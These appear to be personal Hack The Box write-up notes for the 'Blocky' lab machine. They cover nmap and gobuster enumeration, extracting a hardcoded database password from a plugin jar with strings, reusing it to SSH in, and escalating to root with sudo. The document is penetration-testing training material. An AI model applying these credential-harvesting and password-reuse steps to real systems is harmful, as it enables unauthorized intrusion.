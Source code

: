# Loot

## Box Info
- Name : Blocky
- IP : 10.10.10.37
- Level : Easy
-  OS : Linux

## Creds

| Service | Username | Password | Description |
| --- | --- | --- | ---| 
| phpmyadmin | root | 8YsqfCTnvxAUeduzjNSXe22 | Found in BlockCore |
| ssh | notch | 8YsqfCTnvxAUeduzjNSXe22 | Found in BlockCore | 

# Enumeration

## Nmap

1. Quick Scan

```bash
sudo nmap --max-retries 0 10.10.10.37 -oN nmap/quick_scan                                           130 ↵
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 07:03 EDT
Warning: 10.10.10.37 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.37
Host is up (0.18s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds

```

2. Open ports

```bash
cat nmap/quick_scan | grep tcp | awk -F/ '{print $1}' ORS=','
21,22,80,8192,%
```

3. Targeted Scan

```bash
sudo nmap -sC -sV -p 21,22,80,8192 10.10.10.37 -oA nmap/targeted_scan                               130 ↵
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 07:06 EDT
Nmap scan report for 10.10.10.37
Host is up (0.17s latency).

PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.80 seconds

```

## FTP
- Anonymous login not allowed
- Need to check exploit for ProFTPD


## Website
![[Pasted image 20210413071339.png]]
- Wordpress Website
- Running wpscan
- Valid username : notch
- Running gobuster
```bash
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/server-status        (Status: 403) [Size: 299]

```
- In plugins there are two jar files. BlockyCore is interesting.
- Unzip the file and use strings
```bash
strings plugins/BlockyCore/com/myfirstplugin/BlockyCore.class                                             
com/myfirstplugin/BlockyCore                                                                                  
java/lang/Object                                                                                              
sqlHost                                                                                                       
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable

```
- After running strings, we can see that it is the password for root in phpmyadmin.# Foothold

- We know a user from wpscan : notch
- We can use the password from BlockyCore to ty and ssh to the box.
```bash
norman@kali ~/Hack-The-Box/machines/blocky ‹main*› 
╰─$ ssh notch@10.10.10.37 
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Apr 13 09:00:55 2021 from 10.10.14.5
notch@Blocky:~$ 

```
- We can cat out the user.txt


# Priv Esc

- We can run `sudo -l` before running linpeas.
```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

```
- Just run `sudo bash` or `sudo -i`
```bash
notch@Blocky:~$ sudo bash
root@Blocky:~# ls
minecraft  user.txt
root@Blocky:~# cd /root
root@Blocky:/root# cat root.txt | wc -c
32
root@Blocky:/root# 

```
- Cat out root.txt